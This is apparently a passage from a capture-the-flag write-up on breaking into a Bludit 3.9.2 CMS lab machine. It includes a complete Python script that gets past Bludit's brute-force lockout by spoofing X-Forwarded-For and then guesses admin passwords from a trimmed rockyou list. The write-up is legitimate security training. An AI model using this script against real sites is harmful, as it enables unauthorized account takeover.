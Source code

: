 Via google we see that Bludit is indeed a CMS, and also that version 3.9.2 is vulnerable to remote code execution, however we need a valid username and password. It also is vulnerable to a brute force mitigation bypass. Rarely is brute forcing the path in a CTF, but it is rather too convenient that if we had credentials we would have a foothold AND there is an exploit involving brute forcing. It is still worth spending a small bit of time looking at other things so we don't plunge head first into a rabbit hole. With no other services running here though, we don't need to spend long.

An explanation of the vulnerability as well as a python script that exploits it can be found <a href="https://rastating.github.io/bludit-brute-force-mitigation-bypass/"> here</a>. We will have to change the script to suit our needs, but this is simple. We just need it to load a wordlist and use that instead of the simple attempts it currently makes. If brute force is indeed the intended path, the password won't be buried deep in a wordlist as that unnecessarily hammers the servers. So we will just use the first 500 entries of the most popular wordlist, "rockyou.txt". We create the wordlist by entering the following Linux command

```s
head -n 500 /path/to/rockyou.txt > rock500.txt
```


Below is Rastating's modified script which uses our created wordlist.

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/'
username = 'admin'
file = 'rock500.txt'
wordlist = []

with open(file) as f:
    for line in f:
        wordlist.append(line.strip())

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
```